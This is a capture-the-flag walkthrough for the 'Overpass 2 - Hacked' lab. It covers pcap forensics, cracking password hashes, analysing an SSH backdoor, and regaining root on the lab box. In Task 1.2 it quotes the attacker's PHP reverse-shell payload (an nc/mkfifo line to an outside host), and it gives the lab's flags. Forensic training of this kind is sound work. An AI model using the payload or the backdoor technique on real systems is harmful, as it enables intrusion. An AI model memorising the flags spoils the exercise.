






# Overpass 2 - Hacked

## Description

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

# [Task 1] Forensics - Analyse the PCAP

## Description

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

## 1.1 - What was the URL of the page they used to upload a reverse shell?

Let's lunch `wireshark` and start analysing the pcap file provided for us.

We start from **"tcp.stream eq 0"** and move on from there.

Here we can see the directory and the URL that they used to upload the reverse shell from.

Answer: `/development/`

## 1.2 - What payload did the attacker use to gain access?

We can see the payload in **"tcp.stream eq 1"**

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

## 1.3 - What password did the attacker use to privesc?

If you go to **"tcp.stream eq 3"**, you can see the commands that the attacker has executed via the reverse shell.

Answer: `whenevernoteartinstant`

## 1.4 - How did the attacker establish persistence?

If you scroll down a bit, you can see that the attacker used a github link to clone a ssh-backdoor.

Answer: `https://github.com/NinjaJc01/ssh-backdoor`

## 1.5 - Using the fasttrack wordlist, how many of the system passwords were crackable?

For this one, we should copy the password hashes and try to crack them ourselves. The password hashes in a linux machine are saved in `/etc/shadow`. Thanks to the attacker, we have the content of this file in the same stream:

I copied the hashes and started cracking them using `john` and `fasttrack` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass2-Hacked/files]
└─$ john shadow.hash --wordlist=/usr/share/wordlists/fasttrack.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Remaining 2 password hashes with 2 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1qaz2wsx         (muirland)
abcd123          (szymex)
secret12         (bee)
secuirty3        (paradox)
1g 0:00:00:00 DONE (2021-10-16 08:08) 2.702g/s 600.0p/s 1200c/s 1200C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

I was able to crack 4 of them.

Answer: `4`

# [Task 2] Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

Let's navigate to the github link we found earlier and start analyzing the code and answer the questions.

## 2.1 - What's the default hash for the backdoor?

Default hash is in line 19:

~~~go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
~~~

Answer: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

## 2.2 - What's the hardcoded salt for the backdoor?

The hardcoded salt is in the last function:

~~~go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
~~~

Answer: `1c362db832f3f864c8c2fe05f2002a05`

## 2.3 - What was the hash that the attacker used? - go back to the PCAP for this!

We have to go back to the pcap file for this one. You can find it in **"tcp.stream eq 3"**:

Answer: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

## 2.4 - Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Now we have to crack this hash using `hashcat` or `john` and `rockyou` wordlist. I saved the hash plus the salt and started cracking it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass2-Hacked/files]
└─$ cat attacker.hash 
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass2-Hacked/files]
└─$ hashcat -m1710 -a 0 attacker.hash /usr/share/wordlists/rockyou.txt     
hashcat (v6.1.1) starting...

[REDACTED]

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 2 secs

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Sat Oct 16 08:59:26 2021 (0 secs)
Time.Estimated...: Sat Oct 16 08:59:26 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   179.3 kH/s (1.49ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 20480/14344384 (0.14%)
Rejected.........: 0/20480 (0.00%)
Restore.Point....: 16384/14344384 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: chatty -> michael!
~~~

Answer: `november16`

# [Task 3] Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

## 3.1 - The attacker defaced the website. What message did they leave as a heading?

Now we have to hack our way back into the machine. So first deploy the machine and then open the webpage and you can see the message:

Answer: `H4ck3d by CooctusClan`

## 3.2 - Using the information you've found previously, hack your way back in!

Since there is backdoor and we have the password for it (`november16`), we can easily connect to SSH service. Just remember that the backdoor is on port 2222:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass2-Hacked/files]
└─$ ssh $IP -p2222
user@10.10.55.110's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$
~~~

## 3.3 - What's the user flag?

Now that we are logged in, we can read the user flag in `/home/james`.

~~~
james@overpass-production:/home/james$ cd /home/james
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
~~~

User flag: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

## 3.4 - What's the root flag?

Now we need to go root. Fortunately the attacker left a quick way to go root. If you list all the files in james's home directory, there is a file called `.suid_bash` which can easily provide us the root access. Just run it with `-p` flag and you're root!

~~~
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
~~~

Now just navigate to `/root` directory and read the root flag:

~~~
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
~~~

Root flag: `thm{d53b2684f169360bb9606c333873144d}`

# D0N3!  ; )

Thanks to the creators!

Hope you had fun like I did!

An have a good one! : )
